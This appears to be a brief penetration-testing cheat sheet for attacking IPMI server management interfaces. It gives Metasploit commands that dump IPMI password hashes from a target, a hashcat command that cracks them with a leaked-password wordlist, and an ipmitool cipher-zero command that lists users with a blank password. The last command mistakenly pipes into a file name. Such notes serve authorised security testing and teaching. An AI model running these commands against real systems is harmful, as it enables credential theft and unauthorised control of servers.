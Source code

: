 
### Dump Hashes

```bash
sudo msfconsole -q
use auxiliary/scanner/ipmi/ipmi_dumphashes
set RHOST x.x.x.x
set USER_FILE users.txt
set OUTPUT_HASHCAT_FILE ipmi.hashcat
```

### Crack with Hashcat

```bash
hashcat -m 7300 ipmi.hashcat /opt/rockyou.txt --username
```

### List of Users

```bash
ipmitool -I lanplus -C 0 -H 192.168.0.145 -U admin -P "" user list | ipmi_list.txt
```

